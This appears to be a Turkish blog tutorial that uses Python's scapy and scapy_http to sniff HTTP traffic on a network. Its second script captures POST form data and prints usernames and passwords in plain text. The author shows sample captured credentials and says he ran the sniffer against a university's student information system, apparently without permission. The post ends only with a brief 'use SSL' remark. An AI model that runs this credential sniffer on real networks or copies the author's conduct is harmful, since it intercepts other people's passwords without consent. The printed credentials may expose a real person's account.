

Merhaba. Bu yazıda Python ile basit bir şekilde ağ üzerinde nasıl izleme yapılırı anlatmaya çalışıcam.
Yazıya giriş yapmadan önce bazı gereksinimler mevcut. Bunlardan birisi scapy
Teknik detaylara giriş yapmadan önce açıklamak gerekirse scapy, network tarafında özelleştirilmiş paketler üretmeye yarayan bir kütüphane.
Kendisi açık kaynak kodlu bir yazılımdır. Scapy’nin diğerlerine göre farkı genişletilebilir oluşunda. Diğerleri demişken bunlardan benim bildikleri nmap ve hping var. İlla ki görmüşsünüzdür.
Ayrıca scapy interactive olarak ya da development kısmında da çalışabilir. Yani dilerseniz interactive shell ile çalışabilir ya da projenizde kütüphaneyi çağırabilirsiniz.
scapy ve scapy-http Kurulumu
Çok uzatmayalım. Ben işlemleri linux dağıtımı üzerinde gerçekleştirdim. Kurulum iki aşamadan oluşuyor. Dağıtımınızda pip olduğunu varsayarak şu işlemleri gerçekleştirelim:
sudo apt-get install python-scapy
sudo pip install scapy_http
Kurulum bu kadar Burada scapy_http adında bir kütüphane kullandık.
Kütüphane yazarı Luca Invernizzi isimli abimizdir.
scapy ile Ağ Trafiğinin İzlenmesi
Yazı iki kısımdan oluşacak. Bu bir adresi kim yani hangi IP ziyaret ediyor ona bakacağız.
Öncelikle scapy ve scapy_http kütüphanesini dahil edelim:
from scapy.all import IP, sniff
from scapy.layers import http
Şimdi gelen değerleri sniffleyeceğimiz bir metod yazalım. Bu methoddan dönen değerlere göre sniffing işlemi yapacağız.
Bu metodda TCP paketlerini ayıklayacağız. Ayıklama işlemi esnasında herhangi bir şekilde HTTP isteğine denk gelirsek ekrana yazdıracağız.
def tcp_ayikla(paket):
if not paket.haslayer(http.HTTPRequest):
# Eğer paket herhangi bir HTTP isteği almıyorsa burayı atlayalım:
return
#http katmanından geçen istekler
http_katmani = paket.getlayer(http.HTTPRequest)
# IP adresi içeren katman
ip_katmani = paket.getlayer(IP)
print '\n{0[src]} IP adresinden {1[Method]} {1[Host]}{1[Path]} sitesine ziyaret'.format(ip_katmani.fields, http_katmani.fields)
# Ağ üzerinde dinleme işlemine başlıyoruz:
sniff(filter='tcp', prn=tcp_ayikla)
Çıktı olarak şöyle görüntüleriz:

Buraya kadar olan kısım şu bağlantı üzerinden alıntılandı
scapy ile POST Verilerinin Alınması
Gelelim zurna mıdır nedir onun şey dediği yere. Ağ üzerinde herkesin merak ettiği bir diğer konu da internet sitelerine girişte parolaların alınıp alınamayacağıdır.
Yukarıdaki yapıya aşırı benzer bir şekilde POST değerlerini alabilirsiniz. Bu işlem SSL olan sistemlerde işe yaramıyor. Bunu belirtmem gerekir. Eğer SSL konusunda merakınız varsa tintinweb reposuna bakmalısınız.
Post edilen verileri saf haliyla görebilmemizi sağlayan kodun temeli yukarıdaki ile aynı. Geri kalan kısım biraz programlama becerisi istiyor olay o kadar yani.
from scapy.all import IP, sniff
from scapy.layers import http
def tcp_ayikla(paket):
if not paket.haslayer(http.HTTPRequest):
# Eğer paket herhangi bir HTTP isteği almıyorsa burayı atlayalım:
return
http_katmani = paket.getlayer(http.HTTPRequest)
try:
# Gelen istek POST mu?
if str(http_katmani.fields["Method"]) == "POST":
# Öyle ise dönen değeri böl ve bölünen değerin 13.sünü al
# 13. değer form değerlerinin geldiği kısım oluyor
data = str(http_katmani).split('\n')[13]
# Form değerleri birleşikti bildiğiniz GET query gibi
# Önce ampersand kaldırılıp, alt satıra geçme sağlandı
# txtUserName=Falan
# txtPassword=FalanPasswd
# Ardından Gelen değerdeki %40, yerini @ ifadesine bıraktı.
# Mail için önemli :)
data = data.replace('&', '\n').replace('%40', '@')
return data
except:
pass
# Ağ üzerinde dinleme işlemine başlıyoruz:
sniff(filter='tcp', prn=tcp_ayikla)
Bu ikinci kodun sonrasında çalıştırdığımızda aşağıdaki gibi bir çıktı ile karşılaşacağız. Dikkat ettiyseniz formda bulunan inputların name’leri ve value’ları bu ekranda görüntülenebilmekte
txt_username=16612261
txt_password=cH10k1997GuVenL
Yukarıdaki kullanıcı adı ve parola saf haliyle karşımıza sunulmakta. Parola her ne kadar ben güvenliyim imajı verse de izlemek pek de zor olmuyor.
Bu işlemi bir üniversitenin Öğrenci Bilgi Sistemi üzerinde gerçekleştirdim. Umarım problem olmaz :)

Sanırım bir anlatımın daha sonuna geldik. Özetle: SSL kullanın